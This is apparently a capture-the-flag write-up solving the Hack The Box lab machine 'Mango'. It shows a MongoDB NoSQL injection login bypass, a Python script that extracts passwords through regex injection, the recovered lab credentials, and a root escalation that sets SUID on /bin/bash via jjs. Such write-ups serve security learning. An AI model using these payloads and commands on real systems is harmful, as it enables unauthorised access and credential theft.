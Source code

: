 ```yaml
---
"title": "Hack The Box - Mango"
"date": 2020-04-18
"tags": ["linux", "medium", "suid", "mongodb"]
"keywords": ["linux", "medium", "suid", "mongodb"]
"author": "Ghostbyt3"
"description": "We are going to pwn Mango from Hack The Box."
"featured_image": "/img/htb-mango/Untitled.png"
"layout": "single"
"showTableOfContents": true
"authorbox": true
"pager": true
"toc": true
"mathjax": true
"sidebar": "right"
"subtitle": "Writeup"
---
```



![Untitled](/img/htb-mango/Untitled.png)

We are going to pwn Mango from Hack The Box.

Link : [https://www.hackthebox.eu/home/machines/profile/230](https://www.hackthebox.eu/home/machines/profile/214)

Let's Begin with our Initial Nmap Scan.

## Nmap Scan Results:

    PORT    STATE SERVICE
    22/tcp  open  ssh
    80/tcp  open  http
    443/tcp open  https
    PORT    STATE SERVICE  VERSION
    22/tcp  open  ssh      OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 a8:8f:d9:6f:a6:e4:ee:56:e3:ef:54:54:6d:56:0c:f5 (RSA)
    |   256 6a:1c:ba:89:1e:b0:57:2f:fe:63:e1:61:72:89:b4:cf (ECDSA)
    |_  256 90:70:fb:6f:38:ae:dc:3b:0b:31:68:64:b0:4e:7d:c9 (ED25519)
    80/tcp  open  http     Apache httpd 2.4.29 ((Ubuntu))
    |_http-server-header: Apache/2.4.29 (Ubuntu)
    |_http-title: 403 Forbidden
    443/tcp open  ssl/http Apache httpd 2.4.29 ((Ubuntu))
    |_http-server-header: Apache/2.4.29 (Ubuntu)
    |_http-title: Mango | Search Base
    | ssl-cert: Subject: commonName=staging-order.mango.htb/organizationName=Mango Prv Ltd./stateOrProvinceName=None/countryName=IN
    | Not valid before: 2019-09-27T14:21:19
    |_Not valid after:  2020-09-26T14:21:19
    |_ssl-date: TLS randomness does not represent time
    | tls-alpn: 
    |_  http/1.1
    Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
    Aggressive OS guesses: Linux 3.2 - 4.9 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), Linux 3.16 (93%), ASUS RT-N56U WAP (Linux 3.4) (93%), Oracle VM Server 3.4.2 (Linux 4.1) (93%), Android 4.1.1 (93%), Linux 3.18 (93%), Android 4.2.2 (Linux 3.4) (93%)
    No exact OS matches for host (test conditions non-ideal).
    Network Distance: 2 hops
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

## HTTP:

Started with HTTP , It seems like I get Forbidden error message. Weird, Let's check HTTPS.

![Untitled](/img/htb-mango/Untitled%201.png)

## HTTPS:

It looks like a search engine. But If I tried searching any I get `0 results found`. 

![Untitled](/img/htb-mango/Untitled%202.png)

While checking the Certificate of the webpage, I found the Common Name `staging-order.mango.htb`, so i added it to my `/etc/hosts`

![Untitled](/img/htb-mango/Untitled%203.png)

`staging-order.mango.htb`

![Untitled](/img/htb-mango/Untitled%204.png)

Its a login page.I tried some SQL injection methods, Didn't Worked.

## NoSQL Injection:

Why it is not a MongoDB injection. Since the name of the box looks like a hint.

I searched for the exploits and found 

> [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection)

> [https://blog.0daylabs.com/2016/09/05/mongo-db-password-extraction-mmactf-100/](https://blog.0daylabs.com/2016/09/05/mongo-db-password-extraction-mmactf-100/)

So According to PayloadsALLTheThings, I started with Authentication Bypass.

I captured the login request in Burp and send that to repeater.

``username[$ne]=admin&password[$ne]=admin&login=login``
![Untitled](/img/htb-mango/Untitled%205.png)

`302 Found` I followed the redirection. It seems like I bypassed the login.

But it doesn't have anything on it. Why don't we try to extract the password using the script in the PayloadsALLTheThings

![Untitled](/img/htb-mango/Untitled%206.png)

I tried using the user `admin` first to check whether our script works. I did some modifications on the script from PayloadsALLTheThings.

    import requests
    import string
    flag = "^"
    url = "http://staging-order.mango.htb" 
    restart = True  
    while restart:
        restart = False 
        
        for i in string.ascii_letters + string.digits + "~>[]!@#$%^()@_{}":
            payload = flag + i
            post_data = {'username': 'admin', 
    		     'password[$regex]': payload + ".*"}
              
    	r = requests.post(url, data=post_data, allow_redirects=False)
            if r.status_code == 302:
                print(payload)
                restart = True
                flag = payload

So How this works? This python script will bruteforce the password for the user by one by one character. If the character is correct it will give `302 Found`.  And for all other characters, it gives back the status code `200`.  So each time `302 redirect` is seen, it will restart the loop and started brute-forcing the second character.

By doing so I got the password for `admin`[br/](br/)
![Untitled](/img/htb-mango/Untitled%207.png)

``admin:t9KcS3>!0B#2``

Let's try the same script with `mango` as a user. (Just a Guess)[br/](br/)
![Untitled](/img/htb-mango/Untitled%208.png)

And I got the password.
``mango:h3mXK8RhU~f{]f5H``

## Getting a shell as mango:

Logged in as `mango` in ssh but it seems like it doesn't have the User flag. But `admin` has the flag.

![Untitled](/img/htb-mango/Untitled%209.png)

## Getting shell as admin:

I tried login with `ssh` using the password we got already but didn't worked, so I `su` from user `mango` and it worked!

![Untitled](/img/htb-mango/Untitled%2010.png)

## Privilege Escalation:

I uploaded my Linux Enumeration Script and found some `SETUID` Binaries.

![Untitled](/img/htb-mango/Untitled%2011.png)

`run-mailcap` seems like it didn't work. I searched for `jjs` in [GTFObins](https://gtfobins.github.io/gtfobins/jjs/),

We can get the root flag quickly by using the `FIle Read` method.

![Untitled](/img/htb-mango/esgeg.png)

The Shell thing didn't work, But it looks like it executes `/bin/sh`, so Instead of that  tried to give SUID to bash.

```echo "Java.type('java.lang.Runtime').getRuntime().exec('/bin/sh -c \$@|sh _ echo sh [$(tty) ]($(tty) )$(tty) 2>$(tty)').waitFor()" | jjs```

```
    $ jjs 
    Warning: The jjs tool is planned to be removed from a future JDK release
    jjs> Java.type('java.lang.Runtime').getRuntime().exec('chmod u+s /bin/bash').waitFor()
    0
    jjs> 
    $ /bin/bash -p
    bash-4.4# whoami
    root
    bash-4.4#
```
We are Root!
